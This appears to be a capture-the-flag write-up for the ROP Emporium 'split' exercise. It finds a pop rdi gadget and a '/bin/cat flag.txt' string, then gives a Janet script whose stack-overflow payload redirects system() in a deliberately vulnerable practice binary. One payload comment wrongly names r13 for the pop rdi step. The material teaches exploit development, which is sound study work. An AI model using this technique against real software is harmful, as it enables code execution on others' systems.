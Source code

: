 # ROPEmporium - Split (Challenge 2)

```sh
checksec --file=split
# RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
# Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols     No       0               3       split

# alternatively:

rabin2 -I split
# ...
# nx       true
# ...
```

We see `NX` is enabled, meaning we can't execute any code on the stack.

We can look at the `.data` and `.rodata` sections using:

```sh
rabin2 -z split
# [Strings]
# nth paddr      vaddr      len size section type  string
# ―――――――――――――――――――――――――――――――――――――――――――――――――――――――
# 0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
# 1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
# 2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
# 3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
# 4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
# 5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
# 0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```


With `radare2` we analyze helpful functions (once we found a good cheat sheet
for its many cryptic commands):

```
aa  # Analyze all

afl # print function offsets
# 0x004006e8    1 90           sym.pwnme
# 0x00400742    1 17           sym.usefulFunction
# ...

pdf @0x00400742 # disassemble usefulFunction
# ┌ 17: sym.usefulFunction ();
# │           0x00400742      55             push rbp
# │           0x00400743      4889e5         mov rbp, rsp
# │           0x00400746      bf4a084000     mov edi, str.bin_ls         ; 0x40084a ; "/bin/ls"
# │           0x0040074b      e810feffff     call sym.imp.system         ; int system(const char *string)
# │           0x00400750      90             nop
# │           0x00400751      5d             pop rbp
# └           0x00400752      c3             ret
```

We learn from the disassembly that `main` calls a `pwnme` function which is
susceptible to a buffer overflow.
The `usefulFunction` function contains a call to `system()` but with the wrong
argument:
It passes the "/bin/ls" string to `system()` instead of the "/bin/cat flag.txt"
string.

This argument is passed using the `RDI` register.
We could manually search for a gadget, or just let `radare2` do the work for us:

```sh
r2 split
# > /R pop rdi
# 0x004007c3                 5f  pop rdi
# 0x004007c4                 c3  ret
```

<details>
<summary>Where is this instruction coming from?</summary>

Looking at the disassembly in radare2 or objdump, we won't be able to find any such
instruction `pop rdi` followed by `ret`.

In fact, we are jumping into the *middle* of an instruction:

```
0x004007c2       41 5f    pop r15
0x004007c4       c3       ret
```

We skip the first byte `41` at `c2` and jump directly to `5f` at `c3`!
Incidentally, `5f` is machine code for `pop rdi` (in AMD64).
</details>

So we overwrite the stack in a way that `pwnme` will return to `0x004007c3`
and then pop the address of "/bin/cat flag.txt" string into RDI.
Next, the `ret` has to return to `0x0040074b` (taken from the disassembly)
where our `system()` call is located.

The following script should do the trick:

```janet
#!/usr/bin/env janet
(use sh)

(def payload
  (string/join
   [(string/repeat 'A 40)              # garbage to get to the ret address
    "\xC3\x07\x40\x00\x00\x00\x00\x00" # pop rdi; ret gadget
    "\x60\x10\x60\x00\x00\x00\x00\x00" # pop "/bin/cat flag.txt" string addr into r13
    "\x4B\x07\x40\x00\x00\x00\x00\x00" # jump to 0x0040074b -- system(edi)
    ]))

(let [len (length payload)]  # [1]
  (if (<= len 96)
    (print "length ok: " len)
    (print "Warning! Payload truncated after 96 bytes (current length: " len ")")))

(spit "payload.txt" payload) # [2]
($ ./split < ,payload)       # [3]
```

- [1] From the disassembly we know that the buffer has enough space for 32
  bytes, but up to 96 bytes are read in.
  I put this check there when testing the exploit to make sure, I don't
  accidentally write a payload that is too large.
- [2] Write the payload to a file so that I can use it eg. from within GDB.
- [3] Run the binary reading the payload, to test if it works.

## Debugging with GDB

While developing the exploit it is often helpful to get some more insight
into what is going on, eg. by using a debugger.

```
gdb ./split
b *0x004007c3   # set a breakpoint at address
r < payload.txt # run app reading in from payload.txt
start < payload.txt # same as above, but with automatic breakpoint in `main`
starti          # same again, but with breakpoint in `_start`
x/x $rsp        # print hex value of stack pointer
x/s $edi        # print string pointed to by edi
display/15i $rip # print the next 15 instructions on every step
layout asm      # show the disassembly in a separate window
c               # continue to next breakpoint
ni              # next instruction (skip function calls)
si              # step instruction (go into function calls)
disassemble pwnme # show disassembly of the pwnme function
```
